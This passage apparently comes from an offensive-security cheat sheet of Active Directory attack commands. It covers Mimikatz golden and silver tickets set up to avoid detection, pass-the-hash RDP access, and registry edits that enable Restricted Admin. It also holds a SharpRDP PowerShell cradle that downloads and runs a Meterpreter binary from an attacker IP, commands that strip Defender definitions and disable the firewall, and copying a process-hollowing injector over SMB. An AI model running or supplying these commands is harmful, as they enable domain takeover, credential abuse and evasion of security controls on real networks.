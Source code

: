         # Golden ticket (domain admin, w/ some ticket properties to avoid detection)
        kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /krbtgt:[KRBTGTHASH] /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt

        # Silver ticket for a specific SPN with a compromised service / machine account
        kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /rc4:[MACHINEACCOUNTHASH] /target:dc.targetdomain.com /service:HOST /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt

    //LATERAL MOVEMENT:
        //Service SPN Access Methods:  HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights) 
        //Check interfaces, routing, and firewall
            ipconfig /all
            route print
            nmap ...
            ping ...
        //MSSQL Servers?
            //In my domain (prod.corp1.com):  setspn -T prod -Q MSSQLSvc/*
            //In my forest (corp1.com):  setspn -T corp1 -Q MSSQLSvc/*
            //In another forest (corp2.com):  setspn -T corp2 -Q MSSQLSvc/*
            -privesc via linked server RCE
            -privesc/lateral movement via hash disclosure - crack or relay
        //RDP:
            //Enable Restricted Admin:
                sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
                Enter-PSSession -Computer appsrv01
                New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
                //Or:  cme smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
            //Connect via PTH:
                //Mimikatz:  privilege::debug; sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
                //xfreerdp:   xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.120.6 /cert-ignore
            //SharpRDP w/ Creds:
                sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.45.215/msf.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
        //Fileless/RPC (445/CIFS access - w/o creds):
            **Disable Defender before shell:
                \\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "cmd.exe /c c:\PROGRA~1\WINDOW~1\MpCmdRun.exe -RemoveDefinitions -All"
            **Best Shell Method - copy and execute Hollower/Injector:
                copy \\192.168.45.158\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe \\file01\c$\windows\tasks
                \\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "C:\windows\tasks\Hollow.exe"
                ****Bypass:  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe c:\Windows\Tasks\SharpSCExec.csproj
                    //replace the arguments within the file
                    //w/ payload:  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe c:\Windows\Tasks\HollowUAC.csproj
            *Or enable and run via SMB:
                \\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "cmd.exe /c netsh advfirewall set currentprofile state off"
                \\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /t REG_DWORD /v AllowInsecureGuestAuth /d 1 /f"